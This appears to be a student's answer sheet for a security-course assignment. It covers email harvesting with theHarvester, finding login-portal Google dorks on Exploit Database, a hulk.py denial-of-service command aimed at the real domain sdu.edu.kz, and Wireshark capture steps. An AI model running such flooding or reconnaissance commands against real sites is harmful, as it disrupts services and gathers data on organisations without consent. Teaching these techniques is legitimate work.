 # A part questions(7 points)
Another parts [part B](part3.md) [part C](part4.md)
 ## Find email addresses which belong to some organization
 ### Solution 1
 ```
 kali@kali:~$ theHarvester -d [domain name] -b [sources] -l [number of results]
 ```
 - Example
 ```
 kali@kali:~$ theHarvester -d sdu.edu.kz -b all -l 200
 ```
 ### Solution 2
 Go to [hunter.io](https://hunter.io) and search
 
 
## Show how to find google dork for "pages containing login"
1. Go to [Exploit database](https://exploit-db.com/google-hacking-database?)
2. Press Filters button (it's orange)
3. Select `Pages Containing Login Portals` in `Category` drop down menu
4. Run any exploit (no matter if it works) 
 
 
## Perform DOS attack on sdu.edu.kz
```
kali@kali:~$ python hulk.py https://sdu.edu.kz
```
## Wireshark: show any packet and analyze it
 ```
 kali@kali:~$ sudo wireshark
 ```
 1. Select `eth0` interface
 2. Press blue capture button
 3. Analyze any packet
